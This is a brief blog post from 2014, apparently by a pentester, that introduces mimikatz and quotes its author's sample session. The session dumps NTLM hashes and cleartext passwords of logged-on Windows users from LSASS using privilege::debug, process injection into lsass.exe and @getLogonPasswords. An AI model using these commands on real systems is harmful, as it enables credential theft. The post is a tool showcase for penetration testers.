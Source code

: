 ```yaml
---
layout: post
title: "Mimikatz"
modified:
categories: 
excerpt:
tags: []
image:
  feature:
date: 2014-11-23T17:30:31+04:00
---
```

Here’s a brief post about very cool feature of a tool called mimikatz.
I’m very grateful to the tool’s author for bringing it to my attention. Until that point, I didn’t realise it was possible to recover the cleartext passwords of logged on windows users. Something that I’m sure most pentesters would find very useful.
---

Here’s some sample output provided by the author:

{% highlight text %}
mimikatz 1.0 x86 (pre-alpha)    /* Traitement du Kiwi */

mimikatz # privilege::debug
Demande d'ACTIVATION du privilège : SeDebugPrivilege : OK

mimikatz # inject::process lsass.exe sekurlsa.dll
PROCESSENTRY32(lsass.exe).th32ProcessID = 488
Attente de connexion du client...
Serveur connecté à un client !
Message du processus :
Bienvenue dans un processus distant
                        Gentil Kiwi

SekurLSA : librairie de manipulation des données de sécurités dans LSASS

mimikatz # @getLogonPasswords

Authentification Id         : 0;434898
Package d'authentification  : NTLM
Utilisateur principal       : Gentil User
Domaine d'authentification  : vm-w7-ult
        msv1_0 :        lm{ e52cac67419a9a224a3b108f3fa6cb6d }, ntlm{ 8846f7eaee8fb117ad06bdd830b7586c }
        wdigest :       password
        tspkg :         password

Authentification Id         : 0;269806
Package d'authentification  : NTLM
Utilisateur principal       : Gentil Kiwi
Domaine d'authentification  : vm-w7-ult
        msv1_0 :        lm{ d0e9aee149655a6075e4540af1f22d3b }, ntlm{ cc36cf7a8514893efccd332446158b1a }
        wdigest :       waza1234/
        tspkg :         waza1234/
{% endhighlight %}
---
